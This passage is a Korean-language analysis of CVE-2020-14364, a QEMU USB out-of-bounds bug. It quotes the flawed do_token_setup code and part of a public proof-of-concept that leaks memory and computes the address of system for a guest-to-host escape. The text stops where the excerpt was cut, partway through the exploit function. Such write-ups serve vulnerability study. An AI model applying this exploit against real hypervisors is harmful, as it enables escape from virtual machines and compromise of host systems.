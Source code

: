 ```c
        }
        switch (p->pid) {
        case USB_TOKEN_SETUP:
            do_token_setup(dev, p);
            break;
        case USB_TOKEN_IN:
            do_token_in(dev, p);
            break;
        case USB_TOKEN_OUT:
            do_token_out(dev, p);
            break;
        default:
            p->status = USB_RET_STALL;
        }
    } else {
        /* data pipe */
        usb_device_handle_data(dev, p);
    }
}
```

`Control Transfer`에서 `TOKEN SETUP`을 받은 USB는 `do_token_setup`을 통해 `SETUP` 패킷을 처리하려합니다. 문제는 여기서 발생합니다.

현재 USB Device 정보로 설정하고 있는 `setup_len`이 에러 처리 로직전에 이미 설정되고 있으며, `setup_len`이 USB Device의 `data_buf` 크기보다 커져서
에러 처리 로직이 수행되어도 앞서 설정된 `setup_len`을 초기화하거나 처리하는 로직이 존재하지 않습니다. 이를 통해 `OOB`를 유도 할 수 있습니다.
```c
static void do_token_setup(USBDevice *s, USBPacket *p)
{
	..
    s->setup_len   = (s->setup_buf[7] << 8) | s->setup_buf[6];
    if (s->setup_len > sizeof(s->data_buf)) {
        fprintf(stderr,
                "usb_generic_handle_packet: ctrl buffer too small (%d > %zu)\n",
                s->setup_len, sizeof(s->data_buf));
        p->status = USB_RET_STALL;
        return;
    }
	..
}
```

해당 부분에서의 잘못된 처리가 어떻게 `do_token_in`과 `do_token_out`에서 OOB를 유도하는지는 PoC 부분에서 알아봅시다.

# PoC

분석을 진행한 PoC는 <a href="https://github.com/y-f00l/CVE-2020-14364">여기</a>에서 확인할 수 있습니다.

`OOB Read`에 해당하는 부분에 대해서 분석해보겠습니다. 이해가 안되는 부분이 있다면 앞서 작성한 `USB`, `UHCI`에 스펙에 관한 내용을 보시길 바랍니다.

```c
void exp(void) {
    int i;
    init(); //alloc a big dma memory
    do_setup(); //init the s->setup_len to 0xf0, in order to set the s->state = SETUP_DATA
    do_set_lenth(USB_DIR_IN); //init the s->setup_len to 0x7fe to oob read
    for(i = 0; i < 4; i++)
        do_read(0x7fe); //oob read
    base = *(uint64_t *)(data_buf + 7) - 0x73D513;
    heap_base = *(uint64_t *)(data_buf + 15) - 0xEB4240;
    system = base + 0x2ba600;
    uhci_state = heap_base + 0xDA48E0;
    data_buf_addr = heap_base + 0xEB43EC; 
    main_loop_tlg = base + 0x129e0c0;
```